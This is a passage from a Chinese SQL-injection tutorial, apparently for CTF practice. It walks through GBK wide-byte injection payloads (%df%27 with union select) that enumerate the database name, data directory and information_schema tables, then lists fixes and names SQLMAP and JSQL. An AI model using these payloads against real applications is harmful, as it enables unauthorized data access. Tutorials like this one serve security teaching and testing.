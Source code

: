 2，使用联合查询寻找输出点



```perl
?id=-1%df%27%20and%201=2%20union%20select%201,2,3%23
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918004747.png)
3，查询数据



```perl
?id=-1%df%27%20and%201=2%20union%20select%201,database(),@@datadir%23
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918004753.png)
4，从自带库中查询库中表



```perl
?id=1%df%27%20and%201=2%20union%20select%201,2,group_concat(table_name)from%20information_schema.tables%20where%20table_schema=security%23
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918004800.png)

此处我们将security字符转换成16进制加上0x填入



```perl
?id=1%df%27%20and%201=2%20union%20select%201,2,group_concat(table_name)from%20information_schema.tables%20where%20table_schema=0x7365637572697479%23
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918004806.png)

### 如何修复

- 1，使用UTF-8编码格式，避免宽字节注入
- ps:不仅在gbk,韩文，日文等等都是宽字节，都可能存在宽字节注入漏洞。
- 2，mysql_real_escape_string,mysql_set_charset(‘gbk’,$conn);针对查询语句直接加入过滤
- 3，可以设置参数，character_set_client=binary

# SQL注入利用工具

## 常用工具

- SQLMAP：
  https://github.com/sqlmapproject/sqlmap
- JSQL：
  https://github.com/ron190/jsql-injection

## SQLMAP常用命令
